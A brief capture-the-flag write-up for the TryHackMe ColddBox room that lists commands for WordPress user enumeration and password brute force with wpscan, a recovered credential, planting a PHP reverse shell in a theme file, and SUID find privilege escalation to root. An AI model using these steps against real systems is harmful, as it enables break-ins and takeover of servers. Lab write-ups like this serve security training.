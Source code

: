 # Colddbox-CTF
TryHackMe colddbox ctf
Only 80 ports is open(which apche httpd 2.4.18)

#directory enumeration:- found wordpress directory:
wp-login,wp-content

#bruteforce the username first through wpscan tool.

found 3 usernames:- hugo, c0ldd, philip [Command:- wpscan --url http://10.10.84.214/ -e u -t 10]

#Now find password of any one user

c0ldd:9876543210 [Command:- wpscan --url http://10.10.84.214/ --usernames user.txt --passwords rockyou.txt -t 50]

upload php backdoor script in appearance/themes/404.php #(use pentestmonkey reverse shell)

try to gain access using this [URL:- http://10.10.182.237/wp-content/themes/twentyfifteen/404.php]

Found the shell of normal user which is www-data

priv esec

find suid through find command using [Command:- find / -perm -u=s -type f 2>/dev/null] and i got find suid binary

Use this [Command:- /usr/bin/find . -exec /bin/sh -p \; -quit] 

and get root and read user.txt and root.txt file and finally go to bed.:)

